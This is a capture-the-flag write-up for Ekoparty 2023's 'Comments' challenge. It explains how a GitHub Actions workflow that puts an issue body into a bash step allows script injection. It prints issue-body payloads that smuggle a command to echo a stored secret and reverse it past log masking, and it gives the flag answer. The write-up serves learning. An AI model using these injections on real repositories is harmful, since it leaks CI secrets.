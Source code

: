 ```yaml
---
title: Comments
date: 2023-11-12T19:56:46+02:00 
description: Writeup for Comments [Ekoparty 2023]
type: writeup
author: Honesty
tags:
- misc
draft: false
---
```

___

## Challenge Description

You must solve the first challenge to get the answer, all you need is inside the Lobby.

We have access to a GitHub repository with a single README file and a GitHub action workflow.

## Intuition

Checking the workflow script inside `.github/workflows/yearly_review.yml`

```yml
name: Parse review of teacher

on:
  issues:
    types: [opened, edited]

jobs:
  parse-review:
    runs-on: ubuntu-latest
    steps:
      - name: Extract Teacher name and review from issue body
        id: extract-review
        env: 
          db_pass: ${{ secrets.FLAG }} # Do we still need this to write to the DB?
        run: |
          TEACHER=$(echo '${{ github.event.issue.body }}' | grep -oP 'Teacher:.*$')
          REVIEW=$(echo '${{ github.event.issue.body }}' | grep -vP 'Teacher:.*$')
          echo "::set-output name=teacher::$TEACHER"
          echo "::set-output name=review::$REVIEW"
      - name: Comment on issue
        uses: actions/github-script@v5
        with:
          github-token: ${{secrets.GITHUB_TOKEN}}
          script: |
            const issueComment = {
              owner: context.repo.owner,
              repo: context.repo.repo,
              issue_number: ${{ github.event.issue.number }},
              body: `Thank you for reviewing ${'{{ steps.extract-review.outputs.teacher }}'}! Your review was: 
              ${'{{ steps.extract-review.outputs.review }}'}`
            };
            github.rest.issues.createComment(issueComment);
```

Note the **comment** on the `db_pass` line, where our flag is stored.

## Solution

The GitHub action above is executed for every issue created. Before running anything the environment variable `db_pass` is set to `secrets.FLAG`.

The first command in the `run` section uses a [special construct](https://docs.github.com/en/actions/learn-github-actions/variables#using-the-env-context-to-access-environment-variable-values) that gives access to context properties `${{ CONTEXT.PROPERTY }}`. This construct is interpolated and replaced by a **string** before the line is sent to the bash runner, allowing us to manipulate the commands.

```sh
TEACHER=$(echo '${{ github.event.issue.body }}' | grep -oP 'Teacher:.*$')
```

To exploit this, we create a special issue body that modifies the command chain and prints the variable:

```sh
Teacher: ') ; echo ${db_pass}; $(echo '
```

Executing this example won't reveal the actual value of `db_pass` because the GitHub Action console censors the output, displaying `***`. We can overcome this limitation by simply reversing the value.
```sh
Teacher: ') ; echo ${db_pass} | rev; $(echo '
```

This is how the final command looks like:

```sh
TEACHER=$(echo 'Teacher: ') ; echo ${db_pass} | rev; $(echo '' | grep -oP 'Teacher:.*$')
```

Reversing this value again gives us the flag.

### Flag

EKO{m0ve_y0uR_b0dy}
